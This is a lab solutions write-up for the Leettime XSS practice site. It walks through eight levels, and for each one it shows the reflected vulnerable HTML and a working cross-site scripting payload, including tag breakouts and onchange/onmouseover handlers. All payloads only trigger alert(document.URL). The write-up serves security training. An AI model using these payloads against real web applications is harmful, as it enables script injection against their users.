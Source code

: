 # Leettime

URL: http://leettime.net/xsslab1

[TOC]

## Lab Solutions

> To check for an injection point I have used `tipsy` as an input parameter.

## [Level 1](http://leettime.net/xsslab1/chalg1.php)

**Vulnerable Code :** 

```jsx
<center>cannot find tipsy</center>
```

Now as you can see, this is simply reflecting the input, and thus we can use our most basic payload. 

- **Payload :**

    ```jsx
    <script> alert(document.URL) </script>
    ```

## [Level 2](http://leettime.net/xsslab1/sta_ge2.php)

**Vulnerable Code :** 

```jsx
<input type="text" name="name" value=tipsy></input>
```

Now as you can see, the input is being loaded inside the input tag. So naturally we can try to skip over the input tag using the following payload.

- **Payload :**

    ```jsx
    ></input><script> alert(document.URL) </script>
    ```

## [Level 3](http://leettime.net/xsslab1/stg_3.php)

**Vulnerable Code :** 

```jsx
<font size=3>Enter Your Name here : <input type="text" name="name" value="tipsy"></input>
```

Now as you can see, the input is being loaded inside the input tag, but along with a ' " '  . So naturally, we can try to skip over the input tag using the following payload.

- **Payload :**

    ```jsx
    "></input><script> alert(document.URL) </script>
    ```

## [Level 4](http://leettime.net/xsslab1/chlng_004.php)

**Vulnerable Code :** 

```jsx
<input type="text" name="name" value='tipsy'></input>
```

This one is a slight modification over the last one in a way that " was replaced with '. we can bypass this and create our payload in the same way.

- **Payload :**

    ```jsx
    '></input><script> alert(document.URL) </script>
    ```

## [Level 5](http://leettime.net/xsslab1/chl05.php)

**Vulnerable Code :** 

```jsx
<script>var search_str="tipsy";</script>
```

In this one, as we can see `tipsy` occurs inside a script tag. hence we will need to close the script tag first and then inject our basic payload.

- **Payload :**

    ```jsx
    ";</script><script> alert(document.URL) </script>
    ```

## [Level 6](http://leettime.net/xsslab1/ch__006_.php)

**Vulnerable Code :** 

```jsx
<script>var search_str='tipsy';</script>
```

This is just a slight modification over the last one, and hence the payload is easier to write.

- **Payload :**

    ```jsx
    ';</script><script> alert(document.URL) </script>
    ```

## [Level 7](http://leettime.net/xsslab1/ch_7_stage.php)

**Vulnerable Code :** 

```jsx
<input type="text" name="name" value='tipsy'></input>
```

This one again looks like a basic one, but this time when we try to inject it with `'></input><script> alert(document.URL)</script>` , it doesn't work, and the source code shows 

`<input type="text" name="name" value=''</input<script document.URL </script'></input>`

This means that we need to exploit some functionality used by input tag.

After some research , `on change` can be added to inject the payload.

- **Payload :**

    ```jsx
    ' onchange='alert(document.URL)'
    ```

## [Level 8](http://leettime.net/xsslab1/stage--08.php)

**Vulnerable Code :** 

```jsx
<input type="text" name="name" value='tipsy'></input>
```

In this the input is being tokenized, and trying out all the previous payloads doesn't work.

So always remember to check all the parameters, 

In this case, let's see the request that is being sent.

[`http://leettime.net/xsslab1/stage--08.php?name=tipsy&submit=search`](http://leettime.net/xsslab1/stage--08.php?name=tipsy&submit=search)

and we have already seen that name parameter is not vulnerable.

Let's try to change the value of `submit`` parameter and check if it is reflecting !

New request - 

[`http://leettime.net/xsslab1/stage--08.php?name=hello&submit=tipsy`](http://leettime.net/xsslab1/stage--08.php?name=hello&submit=tipsy)

**Vulnerable Code :**

```python
<input type="submit" name="submit" value="tipsy">
```

Now let's try to build the payload with mouseonover 

- **Payload :**

    ```jsx
    " onmouseover="alert(document.URL);
    ```


## And we are done !!

![](assets/Screenshot_from_2020-03-31_16-51-46.png)